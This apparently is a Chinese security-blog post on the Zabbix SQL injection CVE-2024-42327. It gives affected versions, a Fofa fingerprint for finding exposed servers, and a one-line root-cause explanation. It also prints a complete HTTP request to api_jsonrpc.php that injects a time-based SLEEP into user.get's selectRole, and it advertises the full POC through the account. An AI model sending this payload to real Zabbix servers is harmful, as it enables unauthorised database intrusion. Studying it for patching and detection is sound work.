 #  Zabbix 存在SQL注入漏洞 (CVE-2024-42327)   
Mstir  星悦安全   2024-12-14 04:20  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
**Zabbix 是一款可监控网络的众多参数以及服务器、虚拟机、应用程序、服务、数据库、网站、云等的健康状况和完整性。Zabbix 使用灵活的通知机制，允许用户为几乎任何事件配置基于电子邮件的警报。这允许对服务器问题做出快速反应。Zabbix 基于存储的数据提供报告和数据可视化功能.**  
  
**受影响版本:**  
```
- 6.0.0 – 6.0.31
- 6.4.0 – 6.4.16
- 7.0.0
```  
  
**Fofa指纹:app="ZABBIX-监控系统"**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5cEk5Kl3O7v8QyL9tKq0iayHP3PCucmQTjtYiaE7Qfhh6QicVVPVJznbczasttbnbm4rnJIoZG48Mh5g/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5cEk5Kl3O7v8QyL9tKq0iayHvTcYrUdNoFaP1M3sIibI4nzW2Qw08ytcheHDWibD7yTqMkialH8FzrPXg/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5cEk5Kl3O7v8QyL9tKq0iayHctVHhXz6ckTZLd7d3UMLHmRRIuhGLARUYe3MNcbpMuKEx7ju9ibhxMg/640?wx_fmt=png&from=appmsg "")  
## 0x01 漏洞分析&复现  
  
**Zabbix 前端上具有默认 User 角色或具有任何其他授予 API 访问权限的角色的非 admin 用户帐户可以利用此漏洞。SQLi 存在于 addRelatedObjects 函数的 CUser 类中，此函数是从 CUser.get 函数调用的，该函数可供具有 API 访问权限的每个用户使用。**  
  
**Payload:**  
```
POST /api_jsonrpc.php HTTP/1.1
Host: localhost
User-Agent: curl/8.11.0
Accept: */*
Content-Type: application/json
Content-Length: 222
Connection: keep-alive

{
  "jsonrpc": "2.0",
  "method": "user.get",
  "params": {
    "selectRole": ["roleid", "name", "type", "readonly AND (SELECT(SLEEP(5)))"],
    "userids": ["1","2"]
  },
  "id": 1,
  "auth": ""
}
```  
  
**POC使用:**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5cEk5Kl3O7v8QyL9tKq0iayHetwDnTvX7KVtqshDPVlEkmSFTDpAO4vLehqibW5klsyKcqkKdy1nbVw/640?wx_fmt=png&from=appmsg "")  
## 0x02 源码下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**漏洞POC关注公众号发送 241214 获取!**  
  
****  
  
  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
